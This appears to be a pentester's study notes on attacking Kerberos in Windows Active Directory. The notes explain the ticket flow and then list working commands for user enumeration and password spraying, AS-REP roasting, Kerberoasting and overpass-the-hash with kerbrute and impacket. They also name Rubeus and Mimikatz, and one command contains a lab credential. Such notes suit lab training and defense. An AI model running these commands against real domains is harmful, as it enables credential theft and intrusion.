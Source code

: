 https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

Kerberos uses shared keys for authentication
	In a Windows domain this is the NTLM hash

DC (Domain Controller)
	KDC (Key Distribution Center)
		AS (Authentication Server)
		TGS (Ticket Granting Server)

1) Need a TGT (Ticket Granting Ticket) to authenticate myself.
	-> User: AS-REQ - request encrypted with user hash
	<- AS: AS-REP - Can decrypt it with user hash. Here is TGT encrypted with krbtgt hash and then your hash

2) Need a ST (Service Ticket) to communicate with other services on domain
	-> User: TGS-REQ - Here is the TGT. I want a ST for a service
	<- TGS: TGS-REP - I can decrypt TGT with your hash and my hash. Here is ST encryped with service account hash and your hash
		Part service: (user detail, session key) encrypted with user hash
		Part user: (validity time, session key) encrypted wih TGT session key

	Service Principal Names (SPNs) determines service account with service to encrypt the service ticket with hash. Two “types” in AD: 
		“host-based” SPN: domain computer account 
			tent to be uncrackable
		“arbitrary” SPN: account

3) communication with service
	-> User: here is a service ticket
	<- Service: checks out. You may communicate


## Kerberos Brute-force
Careful for locking out accounts.
Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set, for a AS-REP Roasting attack.
`kerbrute userenum --dc 10.10.90.156 -d THM-AD /usr/share/wordlists/rockyou.txt`
	bruteuser - Passwords for user
	bruteforce - user:password combos
	passwordspray -  Password for list users 
	userenum - Users
`Rubeus` (with brute module)


## AS-REP Roasting
Getting TGTs. Need 'DONT_REQUIRE_PREAUTH' set.
Users from file: `impacket-GetNPUsers 'DOMAIN/' -usersfile USERLIST -no-pass -dc-ip IP`
All from domain: `impacket-GetNPUsers 'DOMAIN/triceratops:Sh4rpH0rns' -request -outputfile HASH`
`Rubeus`


## Kerberoasting
By default, all standard domain users can request a copy of all service accounts ST (with SPN value set) along with their correlating password hashes.
`impacket-GetUserSPNs 'DOMAIN/USER:PASSWORD' -outputfile kerb.hash -dc-ip IP`
`Mimikatz`
`Rubeus`


## Overpass The Hash/Pass The Key (PTK)
`impacket-getTGT DOMAIN/USER -hashes HASH`
`Rubeus`
`PsExec`


## Pass The Ticket / Ticket Dump
-


## Silver Ticket Attack
Can be avoided with PAC enabled?


## Golden Ticket attack
once you have hash for krbtgt
Rewrite TGTs


## DCSync attack
-